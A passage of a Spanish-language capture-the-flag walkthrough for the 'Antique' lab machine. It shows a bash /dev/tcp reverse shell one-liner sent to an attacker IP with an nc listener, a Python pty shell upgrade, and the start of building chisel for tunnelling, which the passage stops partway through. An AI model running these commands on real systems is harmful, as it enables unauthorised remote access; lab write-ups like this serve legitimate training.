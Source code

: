 
-----
# [[Reverse shell]]

La maquina victima solamente nos va a dejar utilizar comandos si ponemos exec al principio, y para tener mayor comodidad nos vamos a mandar una [[Reverse shell]]
Vamos a ejecutar `exec bash -c 'bash -i >& /dev/tcp/10.10.16.15/443 0>&1'` mientras estamos en escucha con [[nc -nlvp 443]]

![[Antique16.png]]
Y ya ganamos acceso a la maquina

![[Antique17.png]]

-------
# [[Tratamiento de la TTY]]

No me dejaba hacer el tratamiento correctamente, de la forma que lo pude solucionar fue esta

Solamente tuve que cambiar el primer comando enves de `script /dev/null -c bash` tuve que usar `python3 -c 'import pty; pty.spawn("/bin/bash")'` pero despues es todo lo mismo

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```
Por lo que entendi esto pasa por que no era una tty lo que estabamos recibiendo, y el `script /dev/null solamente sirve para ttys`

------
# Tunneling con [[chisel]]

Usamos [[netstat]] con el comando `netstat -nat` para ver los puertos abiertos

![[Antique20.png]]
Vemos que el puerto 631 esta abierto

### [[chisel]]
Como no tenemos [[ssh]] para hacer un tuneling vamos a usar la herramienta [[chisel]]

La vamos a descargar en nuestra maquina usando [[git clone]] con el comando `git clone https://github.com/jpillora/chisel`
Ahora vamos a entrar al repositorio con [[cd]] usando el comando `cd chisel` y vamos a compilar el binario usando `CGO_ENABLED=0 go build -ldflags "-s -w" .`
